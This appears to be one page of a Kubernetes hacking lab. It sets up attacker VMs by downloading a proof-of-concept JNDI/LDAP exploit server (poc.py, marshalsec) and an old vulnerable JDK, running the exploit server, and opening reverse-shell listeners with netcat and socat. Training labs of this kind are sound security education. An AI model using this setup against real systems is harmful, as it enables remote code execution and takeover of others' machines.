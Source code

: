 +++
title = "Prepare the attacker VMs"
weight = 7
+++

We also have to prepare our attacker VM.

Let's install an application that poses as an LDAP server and provider a Java class to the vulnerable application which will create a remote connection back to the attacker VM.

Run the following commands on the attacker01 VM.

```ctr:
sudo zypper in -y python3
```

Download the app

```ctr:
wget https://github.com/bashofmann/hacking-kubernetes/raw/main/exploiting-app/poc.py
wget https://github.com/bashofmann/hacking-kubernetes/raw/main/exploiting-app/requirements.txt
mkdir ~/target
wget https://github.com/bashofmann/hacking-kubernetes/raw/main/exploiting-app/target/marshalsec-0.0.3-SNAPSHOT-all.jar -P ~/target
pip3 install -r requirements.txt
```

Download a vulnerable JDK

```ctr:
wget https://download.java.net/openjdk/jdk8u43/ri/openjdk-8u43-linux-x64.tar.gz
tar -xvf openjdk-8u43-linux-x64.tar.gz
mv java-se-8u43-ri/ jdk1.8.0_20
```

Now we can run the python app that provides the exploit

```ctr:
sudo python3 poc.py --userip ${vminfo:attacker01:public_ip} --webport 80 --lport 443 &
```

And start listening for remote shells

```ctr:
sudo nc -lvnp 443
```

Run the following commands on the attacker02 VM.

```ctr:
sudo zypper in -y socat
```

```ctr:
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
